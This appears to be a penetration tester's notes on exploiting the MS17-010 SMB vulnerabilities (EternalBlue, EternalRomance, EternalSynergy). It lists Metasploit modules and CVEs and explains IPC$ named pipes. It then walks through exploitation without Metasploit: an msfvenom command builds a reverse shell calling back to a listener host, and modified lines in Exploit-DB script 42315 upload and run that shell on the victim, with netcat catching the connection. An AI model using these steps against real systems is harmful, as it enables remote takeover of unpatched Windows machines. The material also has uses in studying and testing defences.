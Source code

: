 # MS_17_010 Details and exploits:

References:
https://docs.microsoft.com/en-us/security-updates/securitybulletins/2017/ms17-010

Port No. : 445 only(and not 139)

Metasploit Modules:
1. auxiliary/admin/smb/ms17_010_command			MS17-010 EternalRomance/EternalSynergy/EternalChampion SMB Remote Windows Command Execution
2. auxiliary/scanner/smb/smb_ms17_010			MS17-010 SMB RCE Detection
3. exploit/windows/smb/ms17_010_eternalblue		MS17-010 EternalBlue SMB Remote Windows Kernel Pool Corruption
4. exploit/windows/smb/ms17_010_eternalblue_win8	MS17-010 EternalBlue SMB Remote Windows Kernel Pool Corruption for Win8+
5. exploit/windows/smb/ms17_010_psexec			MS17-010 EternalRomance/EternalSynergy/EternalChampion SMB Remote Windows Code Execution


IPC$:
IPC$ is a special share within Windows that is used to facilitate inter-process communication more commonly referred to as IPC. That is, it doesn’t allow one to access files or directories like other shares, but rather allows one to communicate with processes running on the remote system. Specifically, IPC$ exposes named pipes, that one can write to or read from to communicate with remote processes. Such named pipes are created when an application opens a pipe and registers it with the Windows Server service (SMB), such that it can be exposed by the IPC$ share. Any data written to such a named pipe is sent to the remote process, and conversely any output data written by the remote process can be read by a local application from the pipe. One can use such named pipes to execute specific functions, often referred to as Remote Procedure Calls (RPC) on the remote system.

===============================
Module 3: MS-17-010 Scanner:
===============================
Scans for CVE:
2017-0147
2017-0146
2017-0148 
2017-0145 
2017-0144 
2017-0143 

===================================================================
Module 1 & 5: (Not Eternal Blue) => CVE-2017-0143 & CVE-2017-0146
===================================================================

Requires named pipe and for that IPC$ share should be accessible. 
And for IPC$ to be accessible normal users credentials are required.

Reference:
http://www.ethicalpentest.com/2018/03/ms17-010-vulnerability-eternalromance-windows-10-windows-2008-r2.html
https://null-byte.wonderhowto.com/how-to/exploit-eternalblue-windows-server-with-metasploit-0195413/

As if EternalBlue wasn't devastating enough, three more similar exploits were developed after it. EternalRomance and EternalSynergy exploit a type of confusion (CVE-2017-0143), while EternalChampion and EternalSynergy exploit a race condition (CVE-2017-0146).

These were combined into a single Metasploit module that also uses the classic psexec payload. It's considered more reliable than EternalBlue, less likely to crash the target, and works on all recent unpatched versions of Windows, up to Server 2016 and Windows 10.

The only caveat is this exploit requires a named pipe. Named pipes provide a method for running processes to communicate with one another, usually appearing as a file for other processes to attach to. The Metasploit module automatically checks for named pipes, making it pretty straightforward to use as long as a named pipe is present on the target.

==========================================
Module 3: Eternal Blue => CVE-2017-0144	
==========================================
Exploit-db links:
https://www.exploit-db.com/exploits/42315	(More reliable but namedpipe is required).
https://www.exploit-db.com/exploits/42031	

===========================================
Exploiting Eternal Blue without Metasploit:
===========================================

1. Using Exploit db-https://www.exploit-db.com/exploits/42315:
================================================================
Download exploit from above link and also download mysmb.py from link specified at explit db and also make sure impacket is installed (install using pip)

Since namedpipe is required but it is not mandaory to specify one but IPC$ share should be accessible(if anonymous login dont allow its access then user's cred required)
By default it only pwned.txt file at root locaion of C.

(Since on my local window 7 with anonymous login IPC$ is not accessible therefore it will only work when give valid user creds: mansoor-r and 123 as password).

To get reverse shell:
generate reverse shell using msfvenom: (this will work on both 32 and 64 bit)
msfvenom -p windows/shell_reverse_tcp LHOST=192.168.43.53 LPORT=9898 EXITFUNC=thread -f exe -a x86 --platform windows -o reverse_shell.exe

In 42315.py uncomment smb_send_file and replace it with below lines:
smb_send_file(smbConn, '/root/coaching_machine/reverse_shell.exe','C','/windows/temp/reverse_shell.exe')    #It copies reverse shell to victim machine.
service_exec(conn, r'cmd /c c:\\windows\temp\reverse_shell.exe')
#It is recommended to give garbage name to shell.exe as without migration it is not possible to delete this file from admin access cmd.

And you will recieve reverse shell on nc.

2. Using Exploit db-https://www.exploit-db.com/exploits/42031 :
===============================================================

Dont require named pipe (IPC$) and thus purely unauthenticated exploit for RCE but system crashes many times while using this exploit.

(All below payload uses exploit 42031.py but only it generate shellcode which is needed to be supplied along with this exploit).

Reference: https://root4loot.com/post/eternalblue_manual_exploit/


=>Exploit :
self made exploit of eternal_blue: eternalblue_exploit.sh
./eternalblue_exploit.sh 
and start listner in new tab
